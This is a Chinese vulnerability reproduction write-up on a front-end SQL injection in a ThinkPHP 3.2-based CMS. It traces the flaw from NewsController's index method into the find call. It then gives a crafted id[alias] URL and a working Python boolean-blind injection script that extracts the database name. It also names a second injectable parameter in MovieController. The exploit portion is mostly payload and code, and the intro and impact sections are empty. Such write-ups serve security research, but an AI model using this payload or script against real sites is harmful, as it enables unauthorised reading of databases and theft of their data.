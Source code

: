 ### 一、漏洞简介 ###

### 二、漏洞影响 ###

### 三、复现过程 ###

漏洞起始点位于/Application/Home/Controller/NewsController.class.php中的index方法，代码如下
![](前台sql注入(一)/TzJ74lFNKmtjurv.png)
在代码第六行调用了News模型中的detail方法，跟进该方法
![](前台sql注入(一)/kMGtey315nKcY9f.png)
可以看到在第八行进而调用了tp的find方法，在该版本中find方法是可以进行注入的，同时参数$id是我们可控的，首先我们来看一下正常的输入情况(图中域名为本地搭建解析)
![](前台sql注入(一)/FQqP2YrzCc6inag.png)

根据tp3.2的注入点构造一下语句，访问如下链接

    http://lfcms.com/index.php/Home/News/index/?id[alias]=where id=1 and 1--
页面与正常访问相比没有变化，查看一下数据库日志，看下后端数据库语句
![](前台sql注入(一)/OuVPDIbdgk7Zfja.png)

可以看到在id处已经可以进行sql语句的拼接，也就证明该处是存在可利用的注入点的，由于本套程序对于错误信息是有屏蔽的，在这里我们很难利用报错注入带出数据，在该处可以考虑使用布尔类型的盲注，两种回显状态如下
![](前台sql注入(一)/J8eYIvElUjLXsku.png)
![](前台sql注入(一)/OVqDUbNIlydY3w7.png)
接着写一下脚本（以查询数据库名为例）
    
    import requests
    url = 'http://lfcms.com/index.php/Home/News/index/?id[alias]=where id=1 and '
    result = ''
    for i in range(1,50):
    print('-----------------------------')
    for j in range(32,127):
    payload = 'if((ascii(substr((select database()),{},1))={}),1,0)--'.format(i,j)
    temp = url+payload
    try:
    html = requests.get(temp,timeout=10)
    if 'tttest' in html.text:
    result+=chr(j)
    print(result)
    break
    except:
    print('[-]error')
结果如下
![](前台sql注入(一)/vRt2Zxjw4N3ubl7.png)
相同原理的利用点还有很多，如位于/Application/Home/Controller/MovieController.class.php中的index方法的id参数，这里就不再重复分析了

### 参考链接 ###
https://xz.aliyun.com/t/7844